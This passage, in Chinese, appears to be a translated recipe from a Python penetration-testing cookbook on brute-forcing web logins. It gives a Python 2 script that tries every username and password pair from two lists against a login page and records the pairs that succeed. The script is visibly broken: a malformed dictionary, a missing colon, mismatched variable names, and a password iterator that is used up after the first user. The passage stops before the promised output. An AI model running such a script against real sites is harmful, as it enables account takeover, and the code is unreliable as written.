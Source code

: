 暴力强迫可能不是最优雅的解决方案，但它将自动化可能是一项平凡的任务。通过使用自动化，您可以更快地完成任务，或者至少让自己在同一时间从事其他工作。

## 准备好了吗

要使用此配方，您需要一个要测试的用户名列表和密码列表。虽然这不是暴力强制的真正定义，但它将减少您将要测试的组合数。

### 注

如果您没有可用的密码列表，那么在线上有很多可用的密码，例如 GitHub 上最常见的 10000 个密码，位于[https://github.com/neo/discourse_heroku/blob/master/lib/common_passwords/10k-common-passwords.txt](https://github.com/neo/discourse_heroku/blob/master/lib/common_passwords/10k-common-passwords.txt) 。

## 怎么做…

以下代码显示了如何实现此配方的示例：

```py
#brute force passwords
import sys
import urllib
import urllib2

if len(sys.argv) !=3:
    print "usage: %s userlist passwordlist" % (sys.argv[0])
    sys.exit(0)

filename1=str(sys.argv[1])
filename2=str(sys.argv[2])
userlist = open(filename1,'r')
passwordlist = open(filename2,'r')
url = "http://www.vulnerablesite.com/login.html"
foundusers = []
FailStr="Incorrect User or Password"

for user in userlist:
  for password in passwordlist:
    data = urllib.urlencode({"username="user&"password="password})
    request = urllib2.urlopen(url,data)
    response = request.read()
    if(response.find(FailStr)<0)
      foundcreds.append(user+":"+password)
    request.close()

if len(foundcreds)>0:
  print "Found User and Password combinations:\n"
  for name in foundcreds:
    print name+"\n"
else:
  print "No users found\n"
```

以下显示了脚本运行时产生的输出示例：

